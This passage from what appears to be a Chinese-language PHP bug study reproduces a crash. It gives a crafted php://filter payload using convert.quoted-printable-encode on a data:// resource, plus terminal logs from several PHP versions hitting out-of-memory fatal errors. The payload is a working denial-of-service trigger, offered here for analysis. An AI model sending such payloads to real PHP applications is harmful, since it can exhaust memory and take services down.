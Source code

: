 ```
```

payload2:

```
php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA
```

又产生了区别。嗯，起码出现和大佬一样的报错了。

php7.0: ubuntu16.04:

```
qianfa@qianfa:~/Desktop/php_debug$ php test.php

mmap() failed: [12] Cannot allocate memory

mmap() failed: [12] Cannot allocate memory
PHP Fatal error:  Out of memory (allocated 1883242496) (tried to allocate 3758096384 bytes) in /home/qianfa/Desktop/php_debug/test.php on line 2
```

php7.2.12: ubuntu16.04:

```
qianfa@qianfa:~/Desktop/php_debug$ php7 -v
PHP 7.2.12 (cli) (built: Dec  5 2018 10:56:59) ( NTS DEBUG )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
qianfa@qianfa:~/Desktop/php_debug$ php7 test.php

Fatal error: Allowed memory size of 134217728 bytes exhausted at /home/qianfa/Desktop/php_debug/php-7.2.12/ext/standard/filters.c:1601 (tried to allocate 117440512 bytes) in /home/qianfa/Desktop/php_debug/test.php on line 2
```

php7.2.10: ubuntu18.04:

```
tiandiwuji@tiandiwuji:~/Desktop$ php -v
PHP 7.2.10-0ubuntu0.18.04.1 (cli) (built: Sep 13 2018 13:45:02) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.10-0ubuntu0.18.04.1, Copyright (c) 1999-2018, by Zend Technologies
tiandiwuji@tiandiwuji:~/Desktop$ php test.php

mmap() failed: [12] Cannot allocate memory

mmap() failed: [12] Cannot allocate memory
PHP Fatal error:  Out of memory (allocated 1883242496) (tried to allocate 3758096384 bytes) in /home/tiandiwuji/Desktop/test.php on line 4

Fatal error: Out of memory (allocated 1883242496) (tried to allocate 3758096384 bytes) in /home/tiandiwuji/Desktop/test.php on line 4
```
